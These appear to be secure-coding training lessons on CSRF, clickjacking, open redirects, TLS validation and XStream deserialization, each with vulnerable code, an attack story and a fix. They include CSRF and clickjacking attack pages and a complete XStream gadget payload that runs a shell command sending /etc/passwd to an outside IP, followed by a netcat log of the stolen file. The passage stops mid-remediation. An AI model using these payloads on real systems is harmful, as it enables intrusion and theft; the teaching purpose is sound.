    https://fake-research.codebashing.com

Kind Regards,
Bob
----

Alice would normally ignore unsolicited emails, but because the information looks relevant to her, she decides to follow Bob's link.

After the malicious web page opens in her browser, Alice notices that the fake-research.codebashing.com portal is offline for maintenance. +
She decides to revisit the portal later and goes back to the TradeIDEA web site.

Interesting ! All Alice's saved trade ideas have suddenly disappeared after she visited Bob's malicious site. But how did that happen? +
Let us re-visit the source code of Bob's malicious website to find out.

When Bob's malicious web page is loaded by Alice, the javascript method `submit()` is run against the HTML form declared on line 7

Note that the `submit()` method performs the *same action as clicking the "Submit" button* within an HTML form

Upon submitting this form, *Alice's browser generates an HTTP POST request* to TradeIDEA's `/ideas/delete_all` resource.

Given that Alice has already been authenticated to TradeIDEA, the *Delete All* action invoked by Bob's web page is seen as a legitimate request made by Alice, thus deleting all her saved trade ideas.

However, by calling `submit()` on TradeIDEAS's *delete_all* resource, Alice will automatically be redirected to TradeIDEA's web page, raising suspicion about Bob's email.

This is where the `iframe` tag comes handy. *By creating a hidden iframe, Bob's `submit()` method will post the form against this static iframe*, thereby ensuring *Alice never gets redirected to TradeIDEA*. Instead, she will only see the "Server Downtime" message.

====== Remediation

Defending against CSRF attacks isn't as simple as defending against XSS attacks. A *Synchronizer Token Pattern* is required to defend against CSRF attacks. A synchronizer token is also referred to as *Anti-CSRF token*, *CSRF token*, *Challenge Token*, or *Nonce*.

To be effective, *each response from the web server requires a random token to be generated*. This token is then inserted by the application as a hidden text into the sensitive form fields.

By taking this approach, *the application can then check, whenever a user submits a form, that the token is both valid and correct*. This is a good strategy to protect against CSRF attacks because the attacker should never know this randomly generated value.

It allows the application to answer a simple question: Was the form POSTed by the user legitimately created by the application or by an unknown third party? Is it valid or invalid?

Note that wherever a *cryptographically secure pseudo-random number generation (pRNG)* is required, the wheel should not be re-invented. Correct use of *java.security.SecureRandom* is strongly preferred over custom random number generation code because the latter is extremely prone to developer error.

.Remediation
[source,html]
----
//
// HTML codebehind for "Delete All" button
//
​
<form action="/ideas/delete_all" method="post">
  <input type="hidden" name="scope" value="all">
  <button class="button redB" id="delete_button" style="margin: 5px;">Delete All</button>
  <input type="hidden" name="csrf-token" value="uRARsEXKdVjX6iUnQkDcfHiNqvG">
</form>
----

The most effective method to protect against CSRF attacks is by having the application dynamically insert a *random token value* within the *Delete All* form tag.

Then, when the *Delete All* form is submitted by Alice, this random token value is checked by the TradeIDEA application, on the server side.

Given that Bob's malicious web page cannot guess or know this value beforehand, his malicious POST request would fail, thereby preventing the CSRF attack against Alice

This technique of programmatically inserting random token values in every web page is known as the *synchronizer token pattern* +
The pattern implements the generating of random "challenge" tokens that are associated with the user's current session, which are then verified for the existence and correctness of this token on the server side.

How does an additional unique token in the request body help the server mitigate CSRF?

    * By ensuring that the request's body also has an element the attacker cannot possibly guess, as an additional way of ensuring a request came from the user who intended to make it. +
    This prevents an attacker from filling in a form and having a user submit it for them, as a *token associated with a user's session will then be validated by the server*; since an attacker cannot guess this token, they cannot forge a form that would be accepted. In other words, an element in the form which is unique to the user would prevent the attacker from crafting a valid form, mitigating CSRF attacks.

==== Cross Site Request Forgery (GET)

*Cross-Site Request Forgery (CSRF)* is an application security vulnerability  that permits an attacker to force another logged-in user of the application to perform actions within that application without realising. The classic example is Bob and Alice both being logged-in users of an online banking application, and Bob tricks Alice into making a funds transfer to Bob's account with CSRF. Importantly, in CSRF attacks the attacker does not have a direct mechanism for seeing the application's response to the victim.

The vulnerable application pane loads the TradeIDEAS2 application, an online platform that allows for creation and sharing of trading strategies.

Alice who is an authorized trader of the TradeIDEAS2 system has opened the application in her web browser.

As Alice, go ahead and create the following three trade ideas:

    1. Trade TRV given Oil is up to $90
    2. SELL SSW short if it goes over $30
    3. AWW, NSD and TRE at an all time low - BUY

The developers of TradeIDEAS2 have recently enabled a new *Delete All* feature that allows for bulk deletion of trade ideas. +
Before we continue with the exercise, let's analyze this feature in more detail.

[source,html]
----
//
// HTML codebehind for "Delete All" button
//
​
<a href="/ideas2/delete_all?scope=all" title="" class="button redB" id="delete_button"><span>Delete All</span></a>
----

The *Delete All* action is defined as an HTML `a` tag, which when clicked by Alice , submits a GET HTTP request to TradeIDEAS2 `/ideas2/delete_all` URL resource, passing the querystring `scope=all` as an argument.

Bob is an attacker. He has recently discovered a CSRF vulnerability within the TradeIDEAS2 application. +
To exploit this vulnerability, Bob first registers a domain called *fake-research2.codebashing.com* to host a malicious web page. +
Let's quickly analyze the HTML source code for Bob's malicious website before proceeding with the CSRF attack.

.Malicious code
[source,html]
----
<html>
    <body>
        <p>We are experiencing some technical problems. Our website is expected to be back online shortly. We apologize for the inconvenience.</p>
        <img src="https://tradeidea2.codebashing.com/ideas2/delete_all?scope=all" width="0" height="0" border="0">
    </body>
</html>
----

Browsing through Bob's malicious HTML, we notice that the web page is programmed to display a fake "Server Downtime" message, which an unsuspecting victim will notice as a genuine website issue

Bob has also declared an `img` tag within his malicious web page *whose width height and border properties have been set to 0* thereby ensuring that the *img is not visible* once Alice has loaded Bob's malicious web page. Note that the image src is set to TradeIDEAS2 "Delete All" URL. +
We will learn later in the exercise why this img tag is needed for Bob's CSRF attack to work.

Bob then writes a malicious email to Alice, asking her to check out a new financial research portal.

----
Hi Alice,
Check out this interesting financial research portal that my colleagues shared with me:

    https://fake-research2.codebashing.com

Kind Regards,
Bob
----

Alice would normally ignore unsolicited emails, but because the information looks relevant to her, she decides to follow Bob's link to the website.

Interesting, all of Alice's saved trade ideas have suddenly disappeared. But how did that happen? +
Let's look at the source code of Bob's malicious website to find this out.

When Bob's malicious web page is loaded by Alice, her browser will render the HTML markup of this web page including the hidden `img` tag.

Notice that within Bob's malicious webapge, the `img` tag's src parameter is set to TradeIDEA's "Delete All" URL, which upon successfully loading tricks Alice's browser into generating an HTTP GET request to TradeIDEAS2 `/ideas/delete_all` resource.

Given that Alice has already been authenticated to TradeIDEAS2, the Delete All action invoked by Bob's web page is seen as a legitimate request made by Alice , thus deleting all her saved trade ideas.

It is a *bad practice* to implement *Update, Create, and Delete operations* that rely on user-supplied input - *via HTTP GET requests*. This is the example of *misuse of HTTP methods*.

In case of TradeIDEAS2 application, the developers have wrongly assigned GET method to invoke the Delete All function. However, best practice suggests that GET method be only used for retrieving data, while POST, PUT, PATCH, and/or DELETE methods are used for all actions that modify application state.

Many web development frameworks also enforce the use of correctly assigned HTTP methods by default. In general, for a framework-agnostic approach, the following model is in line with the best practice for CRUD operations in a database-centric application:

    1. Use HTTP GET for Read operations (SQL SELECT)
    2. Use HTTP PUT for Update operations (SQL UPDATE)
    3. Use HTTP POST for Create operations (SQL INSERT)
    4. Use HTTP DELETE for Delete operations (SQL DELETE)

==== Click jacking

*Clickjacking*, also known as a *"UI redress attack"*, is when an attacker uses multiple transparent or opaque layers to *trick a user into clicking on a button or link on another page* when they were intending to click on the the top level page. Thus, the attacker is "hijacking" clicks meant for their page and routing them to another page, most likely owned by another application, domain, or both.

The vulnerable application pane loads the TraderDASH application. In this application developers introduced a "One-click Trade" functionality that allows a user to quickly buy and sell stocks with a single-click order execution.

Alice is a trader and registered user of the application. +
As Alice, go ahead and make some trades.

Bob has access to the TraderDASH application, but he does not have access to Alice's stock portfolio. +
Bob knows that if he can just get Alice to sell all her APPL stock, he will then be able to buy the same stock at a lower price.

First, Bob registers a domain called *stocktips.codebashing.com* and configures it to point to his own web server. +
On his web server, Bob hosts a malicious web page that contains genuine looking research reports for traders.

Bob then writes a malicious email to Alice, asking her to check out some interesting research he found.

----
Hi Alice,

Check out this interesting research that my teammate sent to me:

https://stocktips.codebashing.com/

Kind Regards,
Bob
----

Alice would normally ignore unsolicited emails, but because the information looks relevant to her, she decides to open it. +
Alice opens the website using the link provided: https://stocktips.codebashing.com +
This web page seems to load a news report that is relevant to traders like Alice.

Before we see the *Clickjacking* attack in action, let's first take a look at the source code of Bob's malicious web page.

.Malicious code
[source,html]
----
<html>
<body>
​
<p>BarCharts is extremely confident about the long term trading of Oil! Oil hasnt has its breakout move yet so you can still get it at this low price level! The big volume increases from the past couple of days tells us that Oil is getting ready for its breakout move and this one could be huge !</p>
​
<p><strong>OIL has "Strong Buy" rating from BarChart Corp. See our full analysis by clicking the following link !</strong></p>
​
<button style="margin-left: 450px; margin-top: 36px;">RESEARCH REPORT</button>
​
<iframe id="evil_iframe" src="https://traderdash.codebashing.com" frameborder="1" style="opacity: 0"></iframe>
​
</body>
</html>
----

Browsing through Bob's malicious HTML, we notice that the web page contains a `button` tag called "RESEARCH REPORT" which an unsuspecting victim must first click in order to access the research report.

Bob has also declared an `iframe` within his malicious web page that loads https://traderdash.codebashing.com . Note that the `iframe` has been styled using the *CSS opacity: 0 parameter to ensure that the iframe is not visible* once Alice has loaded Bob's malicious web page.

As you can see, the malicious website that Bob created looks harmless. +
However, on the last step, we saw that the stock trading page of the TraderDASH application is being loaded in the `iframe` with `opacity: 0`. +
As Alice was logged in with the application before she clicked Bob's link, `iframe` loads her stock trading page. +
To understand the impact better, play with the slider at the bottom of the pane to *alter the opacity setting of the `iframe` and opacity of the TraderDASH website correspondingly*.

Alice sees that the research report is not loading and decides to go back to the TraderDASH application: https://traderdash.codebashing.com/

Notice that all the purchased APPL shares have now been unintentionally sold. +
Alice didn't realize that when she clicked the RESEARCH REPORT button, *she was actually clicking the transparent SELL button* within the TraderDASH application. +
On the next steps, we'll learn how these attacks can be prevented.

====== REMEDIATION

To combat *Clickjacking* attacks in modern browsers, a *Content-Security-Policy* header can be set to *prevent framing*, using *frame-ancestors directive* that specifies pages that may embed the current page. It has the following values:

    * none is the same as DENY
    * self is the same as SAMEORIGIN
    * Source URI - enables the server administrator to specify scheme, host, and port of allowed parent pages. This directive permits usage of wildcards, e.g. https://*.codebashing.com.

Additionally, for the majority of browsers, the *X-Frame-Options* response header can be set. This header indicates to the browser which other domains are allowed to frame the web page in the response:

    * *DENY* prevents any sort of framing for the current page
    * *SAMEORIGIN* allows only the current domain to frame pages from its own domain
    * *ALLOW-FROM* allows a single domain URI which may frame the page. +
    Unfortunately, this means that for multiple domains, the ALLOW-FROM header will require an implementation that would correctly set the header by the request's referrer header.

----
<IfModule mod_headers.so>
​
# Prevent Clickjacking using X-Frame-Options header
​
Header set X-Frame-Options "deny"
​
# Prevent Clickjacking using Content Security Policy (Not supported by all major browsers yet)
​
Header set Content-Security-Policy: frame-options 'deny'; # Chrome / Firefox
​
Header set X-Content-Security-Policy: frame-options 'deny'; # Internet Explorer
​
</IfModule>
----

To *prevent click jacking attacks*, the *Internet Engineering Task Force (IETF)* has released a number of *HTTP headers*, which when configured provide effective protection against Click Jacking attacks. In our example we have set these HTTP headers using the *`mod_header.so` module* which provides directives to control and insert HTTP request and response headers.

Setting the `X-Frame-Options` response header to deny, instructs a user's browser to *prevent traderdash.codebashing.com from being loaded and rendered within an iframe*. +
By adding this header within TraderDASH's webserver configuration we can prevent Bob from embedding traderdash.codebashing.com within his malicious web page.

The `Content-Security-Policy` header is an additional method that can be effectively used to *disable traderdash.codebashing.com from being embedded within an iframe*. However, note that the support for Content-Security-Policy directive is limited and not supported by older browser versions. It is therefore *recommended* to enabled both *X-Frame-Options* and *Content-Security-Policy* headers within your web server configuration file.

A Clickjacking attack is possible because...
    * A vulnerable site allows malicious sites to open it in an iframe or using equivalent tags

=== Unvalidated Redirects and Forwards

==== Insecure URL Redirect

*Unvalidated redirects and forwards* are possible when a web application accepts untrusted input that could cause the web application to redirect the request to a URL contained within untrusted input. By modifying untrusted URL input to a malicious site, an attacker may successfully launch a phishing scam and steal user credentials.

The vulnerable application pane loads a single sign-on launch page, which users must click in order to access the Backoffice SSO authentication portal. +
Alice who is an authorized user of TraderWORX web portal has loaded the SSO application in her web browser.

Before we demonstrate how URL redirection attacks work, let's start by analyzing TraderWORX's HTML code, specifically the "Backoffice SSO Login" button.

[source,html]
----
//
// HTML codebehind for Backoffice SSO Login button
//
​
<a class="button greyishB" href="/redirect?url=https://sso.codebashing.com">
    <span>Backoffice SSO Login</span>
</a>
----

The "Backoffice SSO Login" button is defined as an anchor link tag, which when clicked redirects users to the TraderWORX SSO Login web page.

The `href` attribute specifies the TraderWORX SSO Login page destination link as:

    redirect?url=https://sso.codebashing.com

Note that the URL sso.codebashing.com is assigned to `url` parameter, which gets passed as a querystring to TraderWORX's redirect servlet.

To recap, when Alice clicks the "Backoffice SSO Login" button, her browser sends the following HTTP GET request to TraderWorx portal:

    https://tradeworx.codebashing.com/traderworx/redirect?url=https://sso.codebashing.com


[source,java]
----
//
// The following is a code snippet illustrating the use of insecure URL redirects in Java
//
​
public class RedirectServlet extends HttpServlet {
  protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException,
    IOException {
     String query = request.getQueryString();
     if (query.contains(url)) {
      String url = request.getParameter(url); //
      response.sendRedirect(url);
       }
     }
}
----

In the following code snippit, the `doGet()` method extracts the incoming URL querystring by invoking the `request.getQueryString()` method. +
A check is then performed to test if the URL querystring contains a `url` parameter by calling `if (query.contains(url))` code block.

If the `url` parameter exists, the `request.getParameter()` method is called to extract our url parameter value. +
For Alice's request the url parameter is set to sso.codebashing.com

Finally, the parameter value is passed to `response.sendRedirect()` method which redirects the client browser to that resource i.e sso.codebashing.com

Bob who is a potential attacker also has access to TraderWORX website. However Bob does not have valid access credentials to login as an authorized user. Bob has tried to find SQL injections and other potential attacks but the developers have embedded strong input validation.

First, Bob registers a domain called *evil.codebashing.com* and configures this domain to point to his own web server. He then configures his webserver to host a bogus login page by copying the original HTML design and layout of the TradeWORX's login web page hosted on sso.codebashing.com

Bob then crafts a malicious email to Alice, asking her to check out a new feature in the TradeWORX portal.

----
Hi Alice,
We have updated TraderWORX recently with additional features you may find useful. You can check these out by logging in with your credentials at

    https://tradeworx.codebashing.com/traderworx/redirect?url=https://evil.codebashing.com

Kind Regards,
Bob
----

Generally Alice would ignore such emails, but because the URL appears to be a genuine URL for TraderWORX portal she decides to open it.

If all went well, Alice should be redirected to Bob's fake TraderWORX login page hosted on evil.codebashing.com

Should Alice attempt logging in with her credentials, she would be submitting her authentication credentials on to Bob's fake login web page, thereby compromising the security of her account, and leaving her exposed to account takeover.

Let's now analyze how Bob exploited the URL redirect flaw on TradeWORX portal.

.Malicious code
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure URL redirects in Java
//
​
public class RedirectServlet extends HttpServlet {
  protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException,
    IOException {
     String query = request.getQueryString();
     if (query.contains(url)) {
      String url = request.getParameter(url); //'https://evil.codebashing.com'
      response.sendRedirect(url);
       }
     }
}
----

In this code, *no input validation is performed on the contents of the url parameter* to ensure `sendRedirect()` is only called if `url` argument is set to sso.codebashing.com

Instead, the application logic simply trusts Bob's user supplied value of url parameter i.e evil.codebashing.com and passes it as an argument to `sendRedirect()`, subsequently redirecting Alice to Bob's malicious website.

====== Remediation

If an application relies on a user-supplied parameter to determine the target of a redirect, it is important to ensure this parameter is properly validated. Otherwise the application’s redirection logic can be abused in order to have legitimate users of the application redirected to malicious website(s) without their knowledge (which is the first stage of a successful phishing attack).

*Correct input validation* in this context means *ensuring that the user supplied redirect-target is both relevant to the application*, and *authorized for the requesting user*.

A more elegant and secure solution would be to use an index / look-up value, whereby the application is responsible for looking-up the correct URL Redirect target based on an index value supplied by the user – in essence preventing any user supplied URLs.

Alternatively, *do not use redirects* within the application.

Let's see how the above recommendations can be applied to our vulnerable example to remediate the URL redirect vulnerability.

.Remediation
[source,java]
----
//
// The following is a code snippet illustrating the use of insecure URL redirects in Java
//
​
public class RedirectServlet extends HttpServlet {
  protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException,
    IOException {
        String url = request.getParameter(url);
            if(url != null && url.equals("https://sso.codebashing.com")) {
                response.sendRedirect(url);
                return;
            }
//     String query = request.getQueryString();
//     if (query.contains(url)) {
//      String url = request.getParameter(url);
//      response.sendRedirect(url);
//       }
     }
}
----

In our modified code example, we first call `request.getParameter()` method to extract Alice's `url` parameter value which is then assigned to the `url` variable.

Finally, an additional input validation check is performed by calling Java's `equals()` method to ensure that the `url` parameter string returned by `request.getParameter()` matches the URL string https://sso.codebashing.com.

Should the if condition test fail, the `doGet` method will halt execution and return, without passing the `url` parameter to `response.sendRedirect`

What is the reason the insecure redirect (or insecure forward) vulnerability exists in the redirection functionality of an application?

    * The user is redirected to an arbitrary URL from the user input

=== Extra Modules

==== Insecure TLS Validation

Insecure TLS validation is a security vulnerability that permits an attacker to bypass SSL pinning.

The vulnerable application pane loads the Business Intelligence application - a thick client application used for accessing the TradeWorx on-line brokerage system.

After Alice connects to the TradeWorx system, she decides to check the status of the connection. +
To view connection details, she clicks the Status button in the upper-right corner of her BI application.

Let us analyze the connection status output: it appears that the TradeWorks system provided us with the *TLS certificate that is already expired*. +
Look at the Not Valid After parameter: its value is set to Sunday, 27 August 2013 02:20:46 British Summer Time +
But Alice was sure the developers have implemented some methods to ensure that the application checks for various TLS errors including expired certificate, revoked certificate, etc.

Let us take a look at the code snippet to understand how the certificate validation is implemented at the code level.

.Vulnerable code
[source,java]
----
public bool testSecureConnectionTo(String aURL) throws Exception {
   Collection SANs = null;
   LinkedList<String> subjectAltList = new LinkedList();
   URL destinationURL = new URL(aURL);
   String wildcardSAN = "*.trade-ssl.com";
   HttpsURLConnection conn = (HttpsURLConnection) destinationURL.openConnection();
   conn.connect();
   java.security.cert.Certificate[] certs = conn.getServerCertificates();
   for (java.security.cert.Certificate cert : certs) {
     if(cert instanceof X509Certificate) {
       try{
         boolean[] keyUsage = ((X509Certificate) cert).getKeyUsage();
         if(!keyUsage[5]) {
           SANs = ((X509Certificate) cert).getSubjectAlternativeNames();
         if (SANs != null) {
           Iterator<X509Certificate> it = SANs.iterator();
           while (it.hasNext()){
             List list = (List) it.next();
             String domain = (String) list.get(1);
             subjectAltList.add(domain);
           }
         } if (!subjectAltList.contains(wildcardSAN)){
           return false;
         }
       } catch (CertificateExpiredException | CertificateNotYetValidException e) {
         logger.log(e.getMessage());
         }
       }
     }
   }return true;
 }
----

In our example the developers use the `java.security.cert` package to *validate peer certificates*.
First, they call the `getServerCertificates()` method of the `HttpsURLConnection` class to receive the certificate from the server.

And after that, they *check if this certificate is not self-signed*.
`getKeyUsage()` method gets the information about the key contained in the certificate, and the next if check ensures the *certificate was signed by some Certification Authority*.

And at the last step we check if the certificate contains Subject Alternative Names (SANs) by invoking the `getSubjectAlternativeNames()` method.

The code then performs an if check to test if the wildcardSAN string value exists in the list of SANs of the certificate and is valid.

As you can see, *no expiration checks are performed*. As a result, *an attacker can now use an expired certificate* and still pass through the TLS validation without being blocked.

====== Remediation

As with any user-supplied input, it is important to *ensure there is a context-specific input validation strategy* in place. For example, consider the case of a *TLS/SSL man-in-the-middle attack* that could abuse the incorrectly defined certificate validation logic.

Let us see how the proper input validation pattern can be applied to our vulnerable example to *remediate the TLS validation bypass vulnerability*.

.Remediation
[source,java]
----
public bool testSecureConnectionTo(String aURL) throws Exception {
   Collection SANs = null;
   LinkedList<String> subjectAltList = new LinkedList();
   URL destinationURL = new URL(aURL);
   String wildcardSAN = "*.trade-ssl.com";
   HttpsURLConnection conn = (HttpsURLConnection) destinationURL.openConnection();
   conn.connect();
   java.security.cert.Certificate[] certs = conn.getServerCertificates();
   for (java.security.cert.Certificate cert : certs) {
     if(cert instanceof X509Certificate) {
       try{
         boolean[] keyUsage = ((X509Certificate) cert).getKeyUsage();
         if(!keyUsage[5]) {

           ((X509Certificate)cert).checkValidity();
           SANs = ((X509Certificate) cert).getSubjectAlternativeNames();
         if (SANs != null) {
           Iterator<X509Certificate> it = SANs.iterator();
           while (it.hasNext()){
             List list = (List) it.next();
             String domain = (String) list.get(1);
             subjectAltList.add(domain);
           }
         } if (!subjectAltList.contains(wildcardSAN)){
           return false;
         }
       } catch (CertificateExpiredException | CertificateNotYetValidException e) {
         logger.log(e.getMessage());
         }
       }
     }
   }return true;
 }
----

In our modified code snippet we add the missing piece with the *validity check*.
To quickly recap, we use the *java.security.cert* package to *validate peer certificates*.

So after we *check that the certificate is not self-signed*, we do *check if this certificate is not expired* with the `checkValidity()` method.

After that, we continue with the check that the certificate contains Subject Alternative Names, and the code then performs an if check to test if the `wildcardSAN` string value exists in the list of SANs of the certificate and is valid.

Which protocol should be used for secure SSL/TLS connection?

    * TLS 1.2 or higher +
    *SSL2* and *SSL3* have *critical vulnerabilities* that allow an attacker to decipher the ciphertext. TLS 1.0 itself doesn't have critical vulnerabilities but in order to comply with some standards, *TLS 1.0 shouldn't be used*. TLS 1.2 has no known security vulnerabilities. In TLS 1.3, support of some obsolete and insecure features was removed.

==== Insecure Object Deserialization

*Insecure Object Deserialization* is a security vulnerability that permits an attacker to abuse application logic, deny service, or execute arbitrary code, *when an object is being deserialized*.

Most programming languages including JAVA provide ways for users to serialize objects into the text or binary format that can be saved or transmitted through the network and then construct those objects back using the deserialization process. This is a very common coding practice.

*Vulnerabilities arise when developers try to construct an object from an untrusted serialization stream*, and they assume that this stream is always correct.

If the stream was corrupted, tampered with or replaced prior to deserialization, the deserialized objects may have an unexpected or illegal state.

The *nastiest consequence* of insecure object deserialization is *Remote Code Execution (RCE)*.

If you can make some server execute the remote command - then you have a foot in the doorway, and can do anything to this server:

    * Upload and execute a backdoor.
    * Use the server as a cryptocurrency miner.
    * Use the server as a part of a botnet.

In this lesson, the deserialization vulnerability in the *XStream library* will be explored. This library serializes objects to XML and deserializes them back again.

As a malicious object, a specially designed *gadget* will be used , as gadget-based exploits are very popular "in the wild".

The gadget is a series of self-constructing objects that are nested in a way that will eventually lead to *command execution via the deserialized object*. In other words, the attacker re-purposes towards malicious ends types that are already available on the deserialization host.

Alice is a software developer for an online e-commerce platform ShopStor. The platform has an API for ShopStor partners to manage account details, track product stock levels, and process orders. +
Alice needs to log in and add a new Account Manager for troubleshooting purposes.

Help Alice to add the new Account Manager. +
Log in as a test user with the provided credentials:

    Email: testuser@shopstorpartner.com
    Password: testpassword

Copy and paste the details of the new Account Manager:

    Name: Alice Cody
    E-mail: alicecody@shopstor.com
    Phone: 555-0690

.Result
[source,html]
----
<org.shopstor.trade.shops.AccountManager>
    <AccManName>Alice Cody</AccManName>
    <AccManEmail>alicecody@shopstor.com</AccManEmail>
    <AccManPhone>555-0690</AccManPhone>
</org.shopstor.trade.shops.AccountManager> 
----

Now let’s check how this interaction with the ShopStor API looks from the client-server perspective. +
After Alice clicks ADD, a XML request that contains Account Manager details is sent to the ShopStor API. +
On the API side, the following code runs to create a new Account Manager record using the data received from the *XML request*.

Alice checks for the new Account Manager record to appear in partner's account at ShopStor, and it looks like everything works just fine.

[source,java]
----
public class XStreamDeserializer {
  public static AccountManager getAccountManager(HttpRequestServlet request) {
    XStream xstream = new XStream();
    try {
      String accountManagerXML = IOUtils.toString(request.getReader());
      AccountManager am = (AccountManager)xstream.fromXML(accountManagerXML);
      return am;
    }
    catch ( /*..*/ ) {
      /* Handle various XStream parsing exceptions */
      return null;
    }
  }
}
----

In our example the API is used to create a new Account Manager, which, inside the application, is implemented with the `AccountManager` class

To implement the "Create new Account Manager" functionality, the `getAccountManager()` method inside the API extracts a POST request's body by invoking `request.getReader()` method, which is then converted to an XML (in the form of a String) with the `IOUtils.toString()` method and assigned to the `accountManagerXML`

The *XStream serialization library* is then used to *deserialize the AccountManager object*. The XStream object's `fromXML()` method is called to deserialize an Account Manager object from an XML, using the `accountManagerXML` String variable as an XML input.

Bob is a bug bounty hunter. He likes to earn additional money on the side by hunting for vulnerabilities.

With the new API release, ShopStor looks interesting, they also offer rewards for responsibly disclosed vulnerabilities.

In his discovery, Bob uses a *Proxy tool* to *intercept HTTP/S requests*, allowing him to also tamper with them and create malicious request payloads.

Bob starts with the same action: he adds the new Account Manager. +
He fills in the Account Manager details, clicks ADD, and goes to his *proxy tool* to check the *POST request* for any clues on potential vulnerabilities

*Bob sees a XML that looks like a JAVA serialized object*. +
Now that Bob knows the trading application is using serialized objects for communication, he knows he must check for an *insecure object deserialization vulnerability*.

[source]
----
===> Request:
POST /partners/018316/AccManList/New HTTP/1.1
Host: https: //www.shopstor.com:8587
Connection: keep-alive
Content-Type: text/xml; charset=utf-8
Content-Length: 268
Body:
<?xml version="1.0" encoding="utf-8"?>

 <org.shopstor.trade.shops.AccountManager> 
 <AccManName>Bob Hackeye</AccManName> 
 <AccManEmail>bobhackeye@shopstor.com</AccManEmail> 
 <AccManPhone>555-0692</AccManPhone> 
 </org.shopstor.trade.shops.AccountManager> 


<=== Response:
----------Headers----------
 HTTP/1.1 200 OK 
 Date:San Jan 14 14 2018 17:29:04 GMT+0200 
 Connection: close
 Content-Type: text/xml; charset=utf-8
 Content-Length: 0
----

Bob is going to create a *malicious gadget* where he *embeds a command that reads the content of the `/etc/passwd` file* from the ShopStor server and then sends it over HTTP to Bob's server to the port 4444.

As we explained at the beginning of the lesson, the *gadget* is a *series of self-constructing objects* that are *nested in a way that will eventually lead to command execution via the deserialized object*.

So, after XStream deserializes this malicious gadget, the following command will be executed on the server:

    /bin/sh -c "cat /etc/passwd | tr '\\n' ' ' | curl -d @- 180.256.0.88:4444"

.Malicious payload XML file
[source,xml]
----
<map>
 <entry>
  <jdk.nashorn.internal.objects.NativeString>
   <flags>0</flags>
   <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
    <dataHandler>
     <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
      <is class="javax.crypto.CipherInputStream">
       <cipher class="javax.crypto.NullCipher">
        <initialized>false</initialized>
        <opmode>0</opmode>
        <serviceIterator class="javax.imageio.spi.FilterIterator">
         <iter class="javax.imageio.spi.FilterIterator">
          <iter class="java.util.Collections$EmptyIterator" />
          <next class="java.lang.ProcessBuilder">
​
            <!-- Malicious code -->
            <command>
                <string>/bin/sh </string>
                <string>-c</string>
                <string>cat /etc/passwd | tr '\\n' ' ' | curl -d @- 180.256.0.88:4444</string>
            </command>
                                
           <redirectErrorStream>false</redirectErrorStream>
          </next>
         </iter>
         <filter class="javax.imageio.ImageIO$ContainsFilter">
          <method>
           <class>java.lang.ProcessBuilder</class>
           <name>start</name>
           <parameter-types />
          </method>
          <name>foo</name>
         </filter>
         <next class="string">foo</next>
        </serviceIterator>
        <lock />
       </cipher>
       <input class="java.lang.ProcessBuilder$NullInputStream" />
       <ibuffer />
       <done>false</done>
       <ostart>0</ostart>
       <ofinish>0</ofinish>
       <closed>false</closed>
      </is>
      <consumed>false</consumed>
     </dataSource>
     <transferFlavors />
    </dataHandler>
    <dataLen>0</dataLen>
   </value>
  </jdk.nashorn.internal.objects.NativeString>
  <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString" />
 </entry>
 <entry>
  <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString" />
  <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString" />
 </entry>
</map>
----

Help Bob create the malicious payload. +
Click ADD to paste the following strings into the code:

[source,xml]
----
<command>
<string>/bin/sh </string>
<string>-c</string>
<string>cat /etc/passwd | tr '\\n' ' ' | curl -d @- 180.256.0.88:4444</string>
</command>
----

To make this demonstration even more visual, Bob uses *Netcat* utility to read from a network connection using TCP and to output the results of the exploited deserialization vulnerability to a console.

On his internet-facing server at the IP address 180.256.0.88, *Bob opens a Netcat listener*.

Bob checks his CLI window and sees there the content of the `/etc/passwd` file from the ShopStor server. +
Bob is pleased: that looks like a great trophy! With this vulnerability, almost any arbitrary operating system command can be executed on the ShopStor's Web server.

.Bob Netcat log
----
root@ip-180-256-0-88:/home/ubuntu#
netcat -l 4444
....
--------------------------------------
66eefc5a03c7
Content-Disposition: form-data; name="file"; filename="passwd"
Content-Type: application/octet-stream
root:x:0:0:root:/root:/bin/bash 
bin: x: 1: 1: bin: /bin: 
daemon: x: 2: 2: daemom: /sbin:  
adm: x: 3: 4: adm: /var/adm: 
lp: x: 4: 7: lp: /var/spool / lpd:
....
----

Let’s explore how this attack was made possible from the code perspective.

.Vulnerable code
[source,java]
----
public class XStreamDeserializer {
  public static AccountManager getAccountManager(HttpRequestServlet request) {
    XStream xstream = new XStream();
    try {
      String accountManagerXML = IOUtils.toString(request.getReader());
      AccountManager am = (AccountManager)xstream.fromXML(accountManagerXML);
      return am;
    }
    catch ( /*..*/ ) {
      /* Handle various XStream parsing exceptions */
      return null;
    }
  }
}
----

To quickly recap, in the API, creation of the new Account Manager is implemented with the `AccountManager` class.

Inside the API, the `getAccountManager()` method needs to extract a POST request's body first. It invokes `request.getReader()` method to read from the `HttpRequestServlet`.

Then the `IOUtils.toString()` method converts the extracted POST body to an XML String and assigns it to the `accountManagerXML` string variable.

Then the XStream object's `fromXML()` method is called to *deserialize* an Account Manager object from an XML. +
In its default state, *an XStream object has access to any and all classes available to the code*; this may include classes that were not expected to be used by the developer, such as the ones utilized by the malicious gadget. By unpacking user input and deserializing an unexpected class, Bob was able to execute his code.

====== Remediation

Alice wants to know what she could do to prevent the issue occurring in the future. +
First, Alice should remember that deserialization of arbitrary user-supplied content is a dangerous thing. +
Second, Alice must ensure to *not trust serialized data* and *use whitelisting*: define *explicit permissions for types*, to check the type of an object that should be deserialized. +
With these permissions, it is at least not possible to inject unexpected types into an object graph.

.Remediation
[source,java]
----
public class XStreamDeserializer {
  public static AccountManager getAccountManager(HttpRequestServlet request) {
    XStream xstream = new XStream();
    xstream.addPermission(NoTypePermission.NONE);
    TypePermission tp = new ExplicitTypePermission(
      new Class[] {
        AccountManager.class
          });
    xstream.addPermission(tp);
    try {
      String accountManagerXML = IOUtils.toString(request.getReader());
      AccountManager am = (AccountManager)xstream.fromXML(accountManagerXML);
      return am;
    }
    catch ( /*..*/ ) {
